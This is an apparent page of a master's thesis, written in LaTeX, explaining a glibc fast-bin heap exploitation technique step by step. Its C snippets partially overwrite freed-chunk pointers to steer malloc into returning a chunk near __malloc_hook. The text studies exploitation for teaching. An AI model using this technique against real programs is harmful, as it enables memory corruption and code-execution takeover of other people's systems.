 \documentclass{masterthesis}
\newcommand*\fb{fast bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_libc_chunk = malloc(0x60);
\end{lstlisting}

Note that the chunk size is mainly set to 0x60 to put this inside the fast bins 0x70 later. 
In the next step, we free \lstinline{relative_offset_heap} and \lstinline{fastbin_victim} . We free \lstinline{relative_offset_heap} at first, so the heap manager puts \lstinline{relative_offset_heap} inside the \lstinline{fd} pointer to \lstinline{fastbin_victim}. Please take a look at the heap layout.

\begin{lstlisting}[language=c,frame=tlrb]
0x0: fastbin_victim - size 0x70 
0x70: alignment_filler - size 0x90
0x100: fake_libc_chunk - size 0x70
0x170: leftover_main - size 0x20
0x190: relative_offset_heap - size 0x70 
\end{lstlisting}

Now,  \fb{} use a single link list and the \lstinline{fd} pointer of \lstinline{fastbin_victim}, point to \lstinline{relative_offset_heap}. By manipulating the last two bytes of \lstinline{fastbin_victim}, we make it a point to \lstinline{fake_libc_chunk}. Also, as we remember, \lstinline{fake_libc_chunk} had a pointer to \lstinline{main_arens+0x68} inside the \lstinline{fd} pointer.

\begin{lstlisting}[language=c,frame=tlrb]
fastbin_victim[0] = 0x00;
\end{lstlisting}

The final layout of \fb{} would be as below.

\begin{lstlisting}[language=c,frame=tlrb]
fastbin_victim -> fake_libc_chunk ->(main_arena + 0x68).
\end{lstlisting}

We need to change the \lstinline{fd} pointer to \lstinline{fake_libc_chunk} to point to \lstinline{malloc_hook} instead of \lstinline{main_arena + 0x68}.

\begin{lstlisting}[language=c,frame=tlrb]
long long __malloc_hook = ((long*)fake_libc_chunk)[0] - 0xe8;
long long __malloc_hook_adjust = __malloc_hook - 0x23;
int8_t byte1 = (__malloc_hook_adjust) & 0xff; 
int8_t byte2 = (__malloc_hook_adjust & 0xff00) >> 8; 
fake_libc_chunk[0] = byte1;
fake_libc_chunk[1] = byte2;
malloc(0x60);
malloc(0x60);
uint8_t* malloc_hook_chunk = malloc(0x60);
\end{lstlisting}
\end{document}
